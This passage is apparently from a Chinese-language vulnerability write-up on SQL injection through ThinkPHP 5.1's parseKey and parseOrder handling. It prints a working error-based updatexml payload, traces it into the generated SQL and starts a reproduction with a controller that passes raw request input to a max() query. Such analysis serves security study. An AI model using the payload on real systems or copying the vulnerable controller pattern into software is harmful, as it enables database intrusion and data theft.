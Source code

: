在parseOrder分析时的`$order`为

```
order[id` and updatexml(1,concat(0x7e,user(),0x7e),1)%23]=1
```

传递到`parseKey`中进行处理

```
$key=id` and updatexml(1,concat(0x7e,user(),0x7e),1)#
```

处理后得到

```
$key=`id` and updatexml(1,concat(0x7e,user(),0x7e),1)#`
```

生成的查询SQL为

```
SELECT * FROM `users` WHERE  `username` = :where_AND_username ORDER BY `id` and updatexml(1,concat(0x7e,user(),0x7e),1)#` LIMIT 1  
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102225207.png)

最终的SQL语句为

```
SELECT * FROM `users` WHERE `username` = 'user' ORDER BY `id` and updatexml(1,concat(0x7e,user(),0x7e),1)-- ` LIMIT 1
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102225852.png)

# parseKey导致sql注入(max查询)

>测试版本为5.1.25

## 漏洞复现

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
    }
}
```
